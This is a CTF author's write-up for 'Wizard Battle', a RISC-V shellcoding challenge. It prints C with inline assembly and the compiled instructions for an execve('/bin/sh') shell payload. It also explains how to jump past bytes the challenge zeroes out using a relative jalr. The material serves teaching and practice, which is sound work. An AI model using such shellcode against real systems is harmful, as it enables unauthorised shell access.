

# Wizard Battle

This challenge is a 64-bit RISC-V shellcoding challenge. The flavortext is a D&D battle / joke about confusing privacy policies. 

The binary is statically linked (making it easier to run locally) and stripped of symbols. The stack is executable. The challenge accepts input from the player and executes it after inserting some zeroes in predictable locations. The player will have to jump over the zeroes, meaning they have to write a little custom shellcode. This is intended to be practice for the ROP challenge.

I borrowed heavily from the deployment for RISC-V challenges in the 2023 Hack-A-Sat quals. Those challenges run with `qemu-user` in Docker containers. See the more extensive write-up for `riscy_voting` for details about how to run those.

## The vulnerability

The user gets to run shellcode on the server.

## Compiling, Running and Debugging RISC-V

[This blog](https://chalkiadakis.me/posts/hack-a-sat-23/riscv-pwn/) goes into detail. Basically, download the RISC-V tool chain and get familiar with using QEMU and `gdb-multiarch` with the instruction set set to RISC-V. I used an Ubuntu 24.04 environment to solve the challenge and deployed the challenge in an Ubuntu 22.04 Docker container to make sure that people on slightly older VMs can still use the tools. Players should expect to have to do a bit of work with tooling to work in this architecture, that's part of the challenge.

## Solution

### Implementing the shellcode

Write a program that executes `execve('/bin/sh',NULL,NULL)`, compile it as 64-bit RISC-V, and take a look at how the compiler produces assembly. (Alternatively, look online for some 64-bit RISC-V shellcode.) Then write another C program that runs the assembly directly. Here's an example:

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdbool.h>

int main(int argc, char **argv) 
{
    //execve("/bin/sh",0,0);
    __asm("li a0, 0x6e69622f\n\t"
          "addi sp,sp,-8\n\t"
          "sd a0,0(sp)\n\t"
          "li a0, 0x0068732f\n\t"
          "sd a0, 4(sp)\n\t"
          "addi a0,sp,0\n\t"
          "li a2,0x0\n\t"
          "li a1,0x0\n\t"
          "li a7,221\n\t"
          "ecall\n\t"
          "li a7,93\n\t"
          "ecall\n\t");
```
This program, which I found in an online blog (and didn't save the reference, but it's quite generic) compiles to the following actual instructions as viewed in `gdb` (working backwards from my notes for the final exploit):
```
lui a0, 0x6e696 # 4 bytes
addiw a0, a0, 559 # 4 bytes
addi sp, sp, -8 # 2 bytes
sd a0, 0(sp) # 2 bytes
lui a0, 0x687 # 4 bytes
addiw a0, a0, 815 # 4 bytes
sd a0, 4(sp) # 4 bytes
mv a0, sp # 2 bytes
li a2, 0 # 2 bytes
li a1, 0 # 2 bytes
li a7, 221 # 4 bytes
ecall # 4 bytes
li a7, 93 # 4 bytes
ecall # 4 bytes
```
Notice the compiler took my original pseudo-instructions that load four-byte integers into registers, and replaced them with manipulations of smaller numbers that allow for both the op code and the operands to all be packed into four bytes.

Next, in a debugger, view the actual bytes of these instructions to generate some shellcode.

Then send the shellcode to run and it will crash because the evil wizard's counterspell overwrites sections of the shellcode with zeroes. One way to deal with this problem is with relative jumps. 

### Implementing local relative jumps

The key is to step into the shellcode with a debugger and look for a register containing an address close to where you want to jump to, and then use a `jalr` jump. Go in there with a debugger and take a look:



At the start of the shellcode, the program counter and register `a5` point to the start of the shellcode buffer. The first two null bytes appear at offsets 17 and 18 in that buffer. So, we can insert a `jalr a5, 20` instruction into our shellcode at offsets 13-16 that will jump ahead to offset 20, and then continue execution. That instructs the CPU to set the program counter to the value in register `a5` plus 20. We can add such a command to our C program, with two-byte `nop` instructions filling the locations where the program writes null bytes, figure out the appropriate machine code representing those compiled instructions, and place them into our payload to deal with the inserted zeroes. The screenshot shows such a payload with the `jalr` command inserted.

### Full solution

A sample solution is [here](../solver/exploit-wizard-battle.py).

## Design considerations

This is basically a gentle intro to working with the RISC-V toolset and learning about how jump instructions work. I considered making this a longer battle leading up to the shellcode for thematic reasons, but since this is finals I decided to keep the flavortext short with an emphasis on the actual pwning.

To make the challenge harder, we could use `fgets()` instead of `read()` to accept the shellcode, and that would make people have to deal with null bytes, possibly with an unpacker. We can do that if we think we don't have enough hard pwnables.

To make it longer we could also have the evil wizard cast a spell first, and allow the player to cast their own counterspell and cause the spell to fail while still continuing execution. I decided against that because it's not super straightforward to do that without giving the player a way to take control of the return address and confusing them.

I put an "optout" file in the Docker container just for fun. It doesn't do anything but for thematic reasons, techncially people can set it from "0" to "1" when they get into the box.


### Debugging RISC-V running in a Docker container with `QEMU-user`

See the write-up for `riscy_voting`. This shouldn't be as critical for players, because the shellcode section is pretty self-contained and as such it should work pretty similarly on systems running RISC-V. The `Dockerfile` is there as a sanity check for people who want to debug with it, as it is true that the memory layout of `QEMU-user` running RISC-V depends on the OS / container running `QEMU-user`. Players trying to jump to an absolute vs. a relative address with their shellcode may run into this sort of problem, and in such cases the `Dockerfile` may help them.